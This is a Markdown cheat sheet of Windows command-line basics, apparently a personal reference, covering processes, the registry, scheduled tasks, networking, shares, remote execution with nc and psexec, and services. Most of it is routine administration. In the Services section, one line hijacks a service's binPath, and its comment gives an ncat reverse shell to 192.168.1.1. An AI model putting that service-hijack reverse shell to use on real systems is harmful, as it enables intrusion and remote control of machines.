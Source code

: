 # Basic Windows 

- https://learn.microsoft.com/en-us/sysinternals/
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands
## Processes

```
tasklist /?
tasklist /fi (username eq myuser) /v /fo table | find "cmd"
tasklist /fo csv

taskkill /pid somepid

wmic process where (ProcessId=<processID>) get Caption,ProcessId,ParentProcessID

pslist /?
pslist -d
pslist -t

pskill
pssuspend
```

## Programs

```
listdlls
listdlls -u # unsigned

set PATH=%PATH%;C:\Users\myuser\Downloads\SysinternalsSuite

dir /s *somefile*
```

### Registry

```
reg /?
reg query hkcu\software\microsoft\windows\currentversion\runonce
reg query hkcu\software\microsoft\windows\currentversion\run
reg delete
reg add hkcu\software\myregistrydirectory /v mykey /t myvaluetype /d myvalue
reg query hklm\path\to\key
reg export hkxx\path\to\key keyfilename

schtasks /?
schtasks /create /tn mytask /sc onstart # on reboot
schtasks /run /i /tn mytast # force run

fsutil
fsutil fsinfo
fsutil fsinfo drives
fsutil fsinfo drivetype c:
fsutil fsinfo volumeinfo c:

systeminternalsuite\du -accepteula c:

dir /r
sysinternalsuite\stream.exe -accepteula

c:\Windows\System32\conhost.exe
```

## System

```
systeminfo /s somehost /u someuser\somedomain /p somepass

set
setx
setx varsystemwide "someprg.exe" /m
```

## Networking

```
ipconfig /all
ipconfig /renew "myadapter"

netstat -ano
arp -s
route print
ping -n
tracert
pathping
```

### Shares

```
nbtstat /n # netBios ports 135, 138, 139
nslookup

net share
net share mysharename=c:\my\share\dir
net use
net use f: \\hostnameorip\dir /user:someuser /persistent:no
```

### Remote connexions

```
nc -s ipaddr -l -n -v -p portnum # listener
nc ipaddr portnum # open connection
socat

psexec -i \\remotecomputer cmd /c "somecommandtorunontheremote"
psexec -i \\remotecomputer -s cmd /c "somecommandtorunontheremote" # system privileges
psexec -i \\remotepc -u user -p pass cmd # interactive connexion
```

## Firewall

```
netsh advfirewall show allprofiles
netsh advfirewall set ?
netsh advfirewall add rule ?
```

## Services

```
sc start WSearch

tasklist /svc # list all services
sc query someservice # query one
sc qc someservice
PsService.exe query WSearch
PsService.exe config WSearch
net stop WSearch
net start WSearch
sc config WSearch start=auto
psservice config WSearch

psservice setconfig someservice auto
sc config someservice binPath="c:\hacked\binary.exe" # "ncat.exe 192.168.1.1 4444 -e cmd.exe"
```

## LDAP

```
Get-ADObject -LDAPFilter '(&(objectClass=organizationalUnit)(!(OU=Domain Controllers)))'
```

## AD

```

```
